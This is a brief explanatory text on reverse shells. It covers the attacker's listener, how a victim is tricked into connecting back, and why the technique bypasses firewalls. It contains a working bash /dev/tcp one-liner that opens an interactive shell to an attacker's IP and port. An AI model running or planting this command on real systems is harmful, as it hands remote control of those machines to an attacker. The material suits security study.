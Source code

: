 A **reverse shell** is when the **target system** (victim) initiates a connection **back** to the attacker's system.
### **How It Works:**
1. The attacker sets up a **listener** on their machine, waiting for incoming connections.
2. The attacker tricks the victim’s machine (through an exploit) into running a command that opens a connection **back to the attacker’s system**.
3. Once connected, the attacker gains shell access and can execute commands on the victim’s system.
### **Example:**
- A hacker finds a vulnerability in a web server and makes it execute a command like:
    ```bash
    bash -i >& /dev/tcp/192.168.1.10/4444 0>&1
    ```
    (This sends the shell back to the attacker’s **IP: 192.168.1.10** on **port 4444**.)
- The attacker's system receives the connection and gains full interactive access.
### **When to Use It?**
- When **firewalls** block **incoming** connections (so a bind shell wouldn't work).
- When the attacker wants to **bypass network restrictions**.
